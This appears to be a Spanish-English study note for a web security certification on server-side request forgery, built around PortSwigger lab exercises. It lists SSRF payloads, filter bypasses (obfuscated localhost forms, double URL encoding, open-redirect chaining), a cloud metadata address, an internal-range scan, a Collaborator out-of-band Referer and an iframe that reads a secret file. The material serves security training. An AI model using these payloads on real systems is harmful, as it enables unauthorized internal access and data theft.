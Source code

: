 Los bellos ataques server side request forgery, poder nosotros acceder a info privada, interna de un servidor desde la interfaz visual de la aplicación en internet, este ataque es seguro que puede aparecer en el stage `3` para poder acceder al secret. 

> SSRF Sample payloads.

```html
/product/nextProduct?currentProductId=6&path=https://EXPLOIT.net  

stockApi=http://localhost:6566/admin  

http://127.1:6566/admin  

Host: localhost
```

> Alternative IP representation of `127.0.0.1`:

1. 2130706433
2. 017700000001
3. 127.1
# SSRF Payloads

> Server side request forgery

```
127.0.0.1
127.1
169.254.169.254
```

```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```

```
[::]
[0000::1]
[0:0:0:0:0:ffff:127.0.0.1]
```

```
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821
```

```
2130706433
3232235521
3232235777
2130706433
```

```
017700000001
```

<hr>

- Direct SSRF:

```
stockApi=http://localhost/admin/
```

- Find Endpoint in Intruder:

```html
stockApi=http://192.168.0.§1§:6566/admin //BURP INTRUDER
```

- Blind with Referer with out-of-band detection: `Referer`

![](Pasted%20image%2020250226223433.png)

```
Referer: http://BURP-COLLABORATOR.com
```

- Simple Bypasses:

```
- Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
- Bypass the block by changing the URL to: `http://127.1/`
- Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
- Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user, o simplemente codear todo a doble url, esto: /admin
```

- Via Open Redirection:

```
Redirection in:
/product/nextproduct?path=http://192.168.0.12:6566/admin

stockApi=/product/nextProduct?currentProductId=4%26path=http://192.168.0.12:8080/admin/delete?username=carlos

stockApi=/product/nextProduct?currentProductId=4%26path=http://192.168.0.12:6566/admin/delete?username=carlos
```

You can change the URL of stockApi to make another api action, such as delete a user

```html
stockApi=http://localhost/admin/delete?username=carlos
```

##### Basic SSRF against another back-end system 

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`. Send to Intruder:

**SSRF localhost:6566 o 192.168.0.[burp intruder]** Como recomendacion portswigger dice que para los ataques durante el examen si se encuentra un SSRF es tirarlo por el puerto 6566

```html
stockApi=http://192.168.0.§1§:8080/admin //BURP INTRUDER
stockApi=http://192.168.0.§1§:6566/admin //BURP INTRUDER
```

We find out that .31 has different lenght and we can delete carlos

```html
stockApi=http://192.168.0.31:8080/admin/delete?username=carlos
stockApi=http://192.168.0.31:6566/admin/delete?username=carlos
```

Exam SSRF

```
{"table-html":"<div><p>Report Heading</p><iframe src='http://localhost:6566/home/carlos/secret'"}
```

##### Blind SSRF with out-of-band detection

Change referer header to your collaborator

```
...
Sec-Fetch-Dest: document
Referer: http://BURP-COLLABORATOR.com
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

```

##### SSRF with blacklist-based input filter


```
- Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
- Bypass the block by changing the URL to: `http://127.1/`
- Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
- Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.
```

##### SSRF with filter bypass via open redirection vulnerability

To solve the lab, change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`.

Recordemos, for the exam the port must be: `6566` 

```
Changing directly is blocked, but we can abuse an open redirection vuln in /product/nextproduct?path=http://192.168.0.12:8080/admin

Observe that the stock checker follows the redirection and shows you the admin page.

Change stockApi from before to: /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

```